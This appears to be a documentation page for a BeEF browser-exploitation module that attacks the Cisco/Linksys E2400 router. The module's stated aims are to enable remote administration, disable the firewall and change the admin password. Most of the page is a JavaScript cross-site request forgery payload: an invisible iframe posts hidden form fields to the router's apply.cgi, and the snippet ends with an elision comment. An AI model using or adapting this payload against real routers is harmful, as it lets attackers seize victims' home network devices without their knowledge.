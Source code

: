 ## Summary

* **Objective**: enable remote admin, disable firewall and change password on Cisco/Linksys E2400
* **Authors**: bcoles, n0x00
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/cisco_e2400_csrf)

## Internal Working

Uses an invisible iframe with a POST request to change router configurations. The victim has to be logged into the router for action to succeed.

```js
var cisco_e2400_iframe1_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "apply.cgi", "POST", "application/x-www-form-urlencoded",
      [
       {'type':'hidden', 'name':'submit_button',     'value':'Management'},
       {'type':'hidden', 'name':'change_action',     'value':''},
       {'type':'hidden', 'name':'action',            'value':'Apply'},
       {'type':'hidden', 'name':'PasswdModify',      'value':'0'},
       {'type':'hidden', 'name':'http_enable',       'value':'1'},
       {'type':'hidden', 'name':'https_enable',      'value':'1'},
       {'type':'hidden', 'name':'ctm404_enable',     'value':''},
       {'type':'hidden', 'name':'remote_mgt_https',  'value':'1'},
       {'type':'hidden', 'name':'wait_time',         'value':'4'},
       {'type':'hidden', 'name':'need_reboot',       'value':'0'},
       {'type':'hidden', 'name':'http_passwd',       'value':passwd},
       {'type':'hidden', 'name':'http_passwdConfirm','value':passwd},
       {'type':'hidden', 'name':'_http_enable',      'value':'1'},
       {'type':'hidden', 'name':'_https_enable',     'value':'1'},
       {'type':'hidden', 'name':'web_wl_filter',     'value':'0'},
       {'type':'hidden', 'name':'remote_management', 'value':'1'},
       //.....

```

## Feedback

